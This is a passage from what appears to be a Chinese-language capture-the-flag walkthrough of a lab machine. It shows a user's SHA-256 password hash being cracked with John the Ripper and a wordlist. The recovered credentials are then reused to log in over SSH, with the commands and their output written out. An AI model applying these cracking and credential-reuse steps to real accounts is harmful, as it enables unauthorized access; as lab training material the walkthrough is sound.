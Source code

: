 注意，在图 5 所示的表格中只有一行。我已经将完整的散列分成两行，以便该表更容易阅读。用户名是`agent47`，完整的哈希密码是:

```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

有了用户名和散列密码，我现在可以用开膛手约翰( [OpenWall，n.d.](https://www.openwall.com/john/) )破解散列。在我的攻击箱上，我将散列存储在一个文本文件中:

```
**└─$ touch hash.txt**

**└─$ echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" >> hash.txt**

**└─$ cat hash.txt** 
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

在我破解哈希之前，我需要知道它是什么类型的哈希。我使用了[散列类型标识符(n.d.)](https://hashes.com/en/tools/hash_identifier) 来确定这个散列是用 SHA-256 算法生成的。知道了我正在处理的散列类型，我可以继续指示开膛手约翰破解密码:

```
**└─$ john hash.txt --wordlist=./rockyou.txt --format=Raw-SHA256**
[... snip ...]
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
***videogamer124 (?)*** 
1g 0:00:00:00 DONE (redacted) 1.694g/s 4900Kp/s 4900Kc/s 4900KC/s vidhus..vidamexicana
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

有了用户名-密码组合`agent47:videogamer124`，我现在可以测试“agent47”重用登录凭证的概念。我启动了一个到目标机器的 SSH 连接，并尝试使用前面提到的用户名和密码组合登录系统:

```
**└─$ ssh agent47@<boot2root ip>**
The authenticity of host '<boot2root ip> (<boot2root ip>)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **[yes]**
Warning: Permanently added '<boot2root ip>' (ED25519) to the list of known hosts.
agent47@<boot2root ip>'s password: **[videogamer124]**
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0–159-generic x86_64) * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantage109 packages can be updated.
68 updates are security updates.Last login: [redacted] from [redacted]
**agent47@gamezone:~$**
```

我现在有了与系统交互的方法——至少是与授予`agent47`的权限交互。

## 后期开发
